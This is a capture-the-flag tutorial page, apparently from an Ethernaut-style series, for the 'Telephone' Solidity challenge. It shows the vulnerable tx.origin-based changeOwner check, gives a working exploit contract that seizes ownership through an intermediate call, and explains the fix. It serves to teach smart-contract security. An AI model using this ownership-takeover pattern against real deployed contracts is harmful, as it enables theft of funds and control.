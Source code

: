 ```yaml
---
title: "Challenge #4: Telephone"
sidebar:
    order: 4
---
```



In this challenge, you need to claim ownership of the `Telephone` contract by exploiting its `changeOwner` function.

## Hints

<Hint index={1}>
    The `changeOwner` function in the `Telephone` contract checks if `tx.origin` is different from `msg.sender`. What is the difference between `tx.origin` and `msg.sender`?
</Hint>

<Hint index={2}>
    Consider how you might call the `changeOwner` function from a different contract. How would that affect the values of `tx.origin` and `msg.sender`?
</Hint>

## Solution

<Solution>
    The `Telephone` contract's `changeOwner` function checks if `tx.origin` is different from `msg.sender` before allowing the owner to be changed. Here's the relevant part of the contract:

    ```solidity
    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
    ```

    To exploit this, you need to call the `changeOwner` function from another contract. This way, `tx.origin` will be the address that initiated the transaction (your address), and `msg.sender` will be the address of the contract that you use to call `changeOwner`.

    Here is a simple exploit contract that can achieve this:

    ```solidity
    pragma solidity ^0.6.0;

    import './Telephone.sol';

    contract TelephoneExploit {
        Telephone public telephoneContract;

        constructor(address _telephoneAddress) public {
            telephoneContract = Telephone(_telephoneAddress);
        }

        function exploit(address _newOwner) public {
            telephoneContract.changeOwner(_newOwner);
        }
    }
    ```

    Deploy this exploit contract with the address of the `Telephone` contract. Then call the `exploit` function with your address as the `_newOwner` parameter. This will change the owner of the `Telephone` contract to your address.
</Solution>

## Conclusion

<Conclusion>
    <Fragment slot="takeaways">
        This challenge demonstrates the importance of understanding the difference between `tx.origin` and `msg.sender`. Key takeaways include:

        1. `tx.origin` refers to the original external account that initiated the transaction, while `msg.sender` refers to the immediate account (contract or external) that called the function.
        2. Using `tx.origin` for authorization checks can be dangerous and is generally discouraged because it can be manipulated through intermediate contracts.
        3. Always prefer `msg.sender` for access control checks to ensure that the correct entity is authorized to perform actions.

        These concepts are crucial for developing secure smart contracts and preventing unauthorized access.
    </Fragment>

    <Fragment slot="hacks">
        The [Mist wallet](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks) used `tx.origin` for authentication, which led to a vulnerability that allowed an attacker to steal funds from users. The attacker would trick the user into interacting with a malicious contract that would call the Mist wallet contract using the user's `tx.origin`, thereby bypassing the authentication checks.
    </Fragment>

    <Fragment slot="resources">
        - [Solidity Documentation on Global Variables](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) - This link provides information on `tx.origin`, `msg.sender`, and other global variables.
        - [Smart Contract Security Best Practices](https://consensys.github.io/smart-contract-best-practices/) - A guide to best practices for securing smart contracts, including proper access control methods.
    </Fragment>
</Conclusion>
